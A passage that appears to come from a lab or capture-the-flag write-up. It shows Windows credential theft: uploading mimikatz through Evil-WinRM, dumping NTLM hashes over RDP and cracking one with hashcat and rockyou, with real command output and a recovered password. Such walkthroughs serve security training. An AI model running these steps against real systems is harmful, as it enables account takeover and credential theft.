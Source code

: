 We have shell access with new user privileges. Let’s dump credentials of  users using ‘mimikatz’ application. For that we need GUI access of Windows, we can use ‘Remmina’ or ‘xFreerdp’ application, and we can use newly created account credentials to login. But before we have GUI access, we need to upload ‘mimikatz’ on the machine. We can do that using Evil-WinRM.

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\test-account\Documents> upload /tmp/mimikatz.exe

Info: Uploading /tmp/mimikatz.exe to C:\Users\test-account\Documents\mimikatz.exe

Data: 1745928 bytes of 1745928 bytes copied

Info: Upload successful!
```

Now connect to RDP with new account creds.

![Screen Shot 2021-09-14 at 07.15.02.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/CABE5206-9C6F-401C-8765-0AE59360306D_2/Screen%20Shot%202021-09-14%20at%2007.15.02.png)

If it fails for some reason, try it couple more times or use ‘xfreerdp’ application. Once you successfully login via RDP, open cmd with admin privileges.

![Screen Shot 2021-09-14 at 07.09.38.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/835C5868-406E-489B-A55B-64CA4AC0960E_2/Screen%20Shot%202021-09-14%20at%2007.09.38.png)

Once you have access to cmd prompt, we need to execute ‘mimikatz’ application and dump the user creds.

![Screen Shot 2021-09-14 at 07.25.44.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/570760C4-832D-4708-B166-E454C55F35CD_2/Screen%20Shot%202021-09-14%20at%2007.25.44.png)

Check privileges and impersonate system.

![Screen Shot 2021-09-14 at 07.34.44.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/DEE0509F-2D2B-4955-ADB6-373624F1CCDD_2/Screen%20Shot%202021-09-14%20at%2007.34.44.png)

Now we dump the hash of rest of the users and look for administrator hash and thomas users hash.

![Screen Shot 2021-09-14 at 07.58.54.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/372F48DC-1150-4D0C-B621-BA3D227BAF49_2/Screen%20Shot%202021-09-14%20at%2007.58.54.png)

![Screen Shot 2021-09-14 at 07.59.22.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/C9710223-E625-45C9-AD06-F81DF973F328_2/Screen%20Shot%202021-09-14%20at%2007.59.22.png)

We got admin and Thomas user hash. Let’s crack user hash using hashcat.

```
⛩\> hashcat '02d90eda8f6b6b06c32d5f207831101f' -m 1000 -a 0 /usr/share/wordlists/rockyou.txt

-------------------SNIP--------------------

02d90eda8f6b6b06c32d5f207831101f:i<3ruby

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: 02d90eda8f6b6b06c32d5f207831101f
Time.Started.....: Tue Sep 14 15:03:29 2021 (3 secs)
Time.Estimated...: Tue Sep 14 15:03:32 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2219.5 kH/s (0.15ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7485440/14344385 (52.18%)
Rejected.........: 0/7485440 (0.00%)
Restore.Point....: 7483392/14344385 (52.17%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: i@loveanthony -> i69_landon

Started: Tue Sep 14 15:03:11 2021
Stopped: Tue Sep 14 15:03:34 2021

```